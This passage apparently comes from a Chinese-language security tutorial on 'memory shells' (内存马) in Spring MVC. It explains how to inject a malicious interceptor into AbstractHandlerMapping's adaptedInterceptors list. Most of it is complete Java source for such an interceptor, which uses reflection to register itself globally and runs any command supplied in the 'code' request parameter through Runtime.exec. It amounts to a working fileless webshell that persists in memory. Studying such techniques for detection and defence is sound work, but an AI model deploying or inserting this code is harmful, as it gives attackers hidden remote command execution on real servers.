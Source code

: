 ### 5、Spring interceptor型

除了上文提及的`cotroller`内存马外，在`spring mvc`中的拦截器也可以实现内存马的注入。有关于`interceptor`在源码中是如何进行调用与添加的，可以参考这一篇博客内容：[针对Spring MVC的Interceptor内存马](https://www.cnblogs.com/bitterz/p/14859766.html)

总的来说，关键点在于：向`org.springframework.web.servlet.handler.AbstractHandlerMapping`类的实例对象的`adaptedInterceptors`数组中添加恶意`interceptor`实例对象即可！

#### 内存马

```java
//package bitterz.interceptors;

import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class TestInterceptor extends HandlerInterceptorAdapter {
    public TestInterceptor() throws NoSuchFieldException, IllegalAccessException, InstantiationException {
        //获取上下文
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        // 获取 adaptedInterceptors 属性值
        org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
        
        // 避免重复添加
        for (int i = adaptedInterceptors.size() - 1; i > 0; i--) {
            if (adaptedInterceptors.get(i) instanceof TestInterceptor) {
                System.out.println("已经添加过TestInterceptor实例了");
                return;
            }
        }
        
        //创建并添加
        TestInterceptor aaa = new TestInterceptor("aaa");  // 避免进入实例创建的死循环
        adaptedInterceptors.add(aaa);  //  添加全局interceptor
    }

    private TestInterceptor(String aaa){}

    // 恶意代码区域
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String code = request.getParameter("code");
        if (code != null) {
            java.lang.Runtime.getRuntime().exec(code);
            return true;
        }
        else {
//            response.sendError(404);
            return true;
        }}}

```